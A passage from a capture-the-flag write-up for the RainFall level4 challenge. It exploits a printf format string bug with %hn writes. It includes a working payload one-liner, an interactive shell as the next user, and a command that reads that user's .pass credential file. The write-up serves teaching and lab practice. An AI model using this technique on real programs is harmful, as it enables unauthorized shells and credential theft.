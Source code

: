 **After second %13$hn (21828 total characters):**
```
0x8049810: [44 55] [02 01] = 0x01025544
            ↑        ↑
      written by   unchanged
        %13$hn     from step 1
    (21828 = 0x5544)
```

### 17. Execute the Exploit
```bash
level4@RainFall:~$ python -c "import struct; print(struct.pack('<I', 0x8049812) + struct.pack('<I', 0x8049810) + '%250c%12\$hn%21570c%13\$hn')" | ./level4
[... lots of padding characters ...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

# Success! The system() call executed and revealed the flag
```

### 20. Get Interactive Shell
```bash
level4@RainFall:~$ (python -c "import struct; print(struct.pack('<I', 0x8049812) + struct.pack('<I', 0x8049810) + '%250c%12\$hn%21570c%13\$hn')"; cat) | ./level4
[... padding ...]
whoami
level5
cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Vulnerability Analysis

### Root Cause:
- **Format string vulnerability**: `printf(user_input)` in function `p()`
- **Arbitrary memory write**: `%n` and `%hn` allow writing to any address
- **Conditional execution**: System call triggered by specific memory value

### Exploitation Technique:
1. **Stack position discovery**: Found input at position 12
2. **Target identification**: Global variable at 0x8049810
3. **Value splitting**: 32-bit value split into two 16-bit writes
4. **Memory layout abuse**: Used format string to write addresses to stack
5. **Precise character counting**: Exact calculations for target values
6. **Wraparound arithmetic**: Used 16-bit overflow for efficient exploitation

### Key Learning Points:
1. **Format string vulnerabilities** enable arbitrary memory read/write
2. **%hn modifier** writes 16-bit values, enabling precise control
3. **Stack layout analysis** critical for parameter positioning  
4. **Modular arithmetic** essential for large value exploitation
5. **Memory endianness** affects multi-byte write ordering
6. **Character count precision** determines success of exploitation

### Memory Corruption Flow:
```
User Input → fgets() → Buffer → p() → printf() → Stack Read → Memory Write → Condition Check → System Call
```